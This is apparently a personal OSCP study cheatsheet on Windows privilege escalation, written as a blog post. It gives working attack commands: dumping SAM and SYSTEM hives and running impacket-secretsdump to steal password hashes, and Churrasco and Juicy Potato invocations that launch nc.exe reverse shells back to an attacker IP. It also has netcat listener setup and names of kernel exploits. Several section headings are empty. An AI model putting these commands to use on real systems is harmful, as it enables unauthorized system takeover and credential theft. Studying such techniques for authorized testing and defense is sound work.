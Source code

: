 ```yaml
---
title: Windows Privilege Escalation
author: linatl
date: "2021-03-13 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Tricks to improve a crappy shell
```
rlwrap
> rlwrap -r nc -nvlp 443
```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
> [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
> [Environment]::Is64BitProcess

If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```

###### Hashdump
```
Dumping SAM hashes from CMD:
https://miloserdov.org/?p=4129

reg save hklm\sam c:\sam
reg save hklm\system c:\system

Location:
C:/Windows/System32/config/SAM
C:/Windows/System32/config/SYSTEM

Dumping hashes from attack machine:
impacket-secretsdump domain.local/username@10.10.10.10 -just-dc
```

###### Token Kidnapping on Windows Server 2003

```
If SeImpersonatePrivilege is Enabled, this will probably work.

> git clone https://github.com/Re4son/Churrasco
after uploading the exe:

Execute Command
> churrasco.exe -d "whoami"
Using nc.exe to start a reverse shell connection
> churrasco.exe -d "c:\Users\username\Documents\nc.exe -e cmd.exe 192.168.1.1 443"
```

###### Potato attacks
```
If both SeChangeNotifyPrivilege and SeImpersonatePrivilege are enabled

Hot Potato
https://foxglovesecurity.com/2016/01/16/hot-potato/

Rotten Potato
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato

Juicy Potato
https://github.com/ohpe/juicy-potato
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato
x86 variant:
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2

Example juicy potato:

List of CLSID's:
http://ohpe.it/juicy-potato/CLSID/

On attacker system:
> nc -nvlp 80
On target system:
First upload nc.exe & JuicyPotato.exe, and place it in current dir
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -t *
Or using a different CLSID:
> JuicyPotato.exe -l 80 -p c:\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.1.1 80" -c {03ca98d6-ff5d-49b8-abc6-03dd84127020} -t *
```

###### RunAs
###### Registry Tricks
###### AlwaysInstallElevated
###### Autorun
###### Port Forwarding
###### Service Permissions
###### Unquoted Path
###### DLL Hijacking


###### Schtasks
```
schtasks /query /fo LIST /v
tasklist /SVC
```

###### Kernel Exploits
```
MS10-059 (tcmwinprivesc)
MS16-032 (empire)
(find some more recent as well)
```

###### Kernel Exploits ~ Resources
```
Seclists
https://github.com/SecWiki/windows-kernel-exploits

Empire
https://github.com/EmpireProject/Empire/tree/master/data/module_source
```

